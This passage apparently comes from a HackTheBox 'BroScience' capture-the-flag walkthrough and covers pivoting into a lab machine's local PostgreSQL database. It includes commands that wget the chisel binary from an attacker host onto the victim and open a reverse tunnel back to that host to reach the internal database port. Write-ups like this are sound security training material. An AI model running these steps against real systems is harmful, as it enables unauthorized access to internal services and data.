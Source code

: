 Let's use chisel to create an SSH tunnel in order to access with psql client

```bash

# Load it into the machine
wget http://10.10.15.7:5454/chisel_32

# Start listening on the attack box
./chisel server -p 8000 --reverse

# Start SSH tunnel on victim
chmod +x chisel_32
./chisel_32 client 10.10.15.7:8000 R:5432:127.0.0.1:5432

```

Now we can use psql on our machine to access the tunnel using the port we have allowed for this matter. I mirrowed it, so let's use 5432:

```bash

psql -h 127.0.0.1 -p 5432 -d broscience -U dbuser 

```

Great, we are in, now let's do some basic enumeration and get some interesting rows:

<p align="center">
  <img src="/images/walkthroughs/hackthebox/broscience/3_2_db.png" width="80%">
</p>  